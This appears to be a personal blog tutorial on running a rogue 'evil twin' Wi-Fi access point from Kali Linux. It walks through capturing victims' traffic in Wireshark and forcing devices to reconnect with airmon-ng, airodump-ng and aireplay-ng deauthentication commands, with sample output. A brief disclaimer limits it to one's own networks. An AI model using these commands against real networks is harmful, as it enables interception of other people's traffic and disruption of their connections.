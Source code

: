 > Disclaimer: I think it goes without saying that you should only be doing this sort of caper on networks you own. But if nothing else it should disuade you from using public Wi-Fi networks.

Download the latest [Kali Linux ISO](https://www.kali.org/downloads/) and create a [bootable USB drive](https://docs.kali.org/downloading/kali-linux-live-usb-install). Restart your computer and boot into Kali via the BIOS.

You need two network connections so tether your phone with a cable leaving the built-in Wi-Fi for your rogue access point.

_Settings > Wi-Fi > options > Turn On Wi-Fi Hotspot..._

Run `nmtui` and edit the hotspot credentials to match your home network.

## Capturing packets
Capturing packets really is as simple as running Wireshark on the Wi-Fi network interface. Try adding a Wireshark filter and visit https://turpin.dev on your compromised device just so you have some known text to search for.

```text
frame contains "turpin"
```

And now we wait for a new device to connect... actually, even established connections re-negotiated periodically but we can make it happen on demand.

## Forcing a reconnection
We _could_ wait but we can also kick out existing sessions by sending a malformed message to the genuine access point.

You'll need two Wi-Fi connections for this: one for the hotspot, one to send malformed packets. So procure a USB-to-Wi-Fi adapter.

List your network interfaces.

```bash
ip a
```

If the built-in Wi-Fi is the hotspot, let's insert the USB Wi-Fi adapter and put it into monitor mode.

```bash
airmon-ng start wlan1
```

Check your network interfaces again and you'll see it has a "mon" suffix. Now see what devices are out there.

```bash
airodump-ng wlan1mon --manufacturer
```

`airodump-ng` lists access points and clients.

```text
CH 2 ][ Elapsed: 30 s ][ 2019-11-02 14:06

BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID

A0:BD:CD:8F:D0:2A -66 39 225 100 11 130 WPA2 CCMP PSK pleasedto

BSSID STATION PWR Rate Lost Frames Probe

(not associated) 5C:AA:FD:25:40:DD -64 0 - 0 28 4 Sonos_fLNwUn2QJ
```

Deauthenticate the target.

```bash
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 wlan1
```

See the [aircrack documentation](https://www.aircrack-ng.org/doku.php?id=deauthentication).

## Tidying up after yourself
When you're done take the network interface out of monitor mode and restart your network. But you can just turn off if you don't care. Should the Kali screensaver kick in the default root password is "toor" (root backwards).

```bash
airmon-ng stop wlan1mon
systemctl restart network-manager.service
```

